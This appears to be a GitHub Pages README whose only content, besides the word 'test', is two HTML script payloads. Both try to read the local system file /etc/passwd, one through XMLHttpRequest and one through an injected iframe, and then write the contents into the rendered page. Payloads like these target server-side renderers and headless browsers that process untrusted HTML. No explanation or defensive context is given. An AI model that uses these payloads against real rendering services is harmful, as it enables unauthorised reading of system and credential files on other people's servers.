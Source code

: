 # rikiaji.github.io
test
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.write(this.responseText)
	};
	x.open("GET","file:///etc/passwd");
	x.send();
</script>

<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
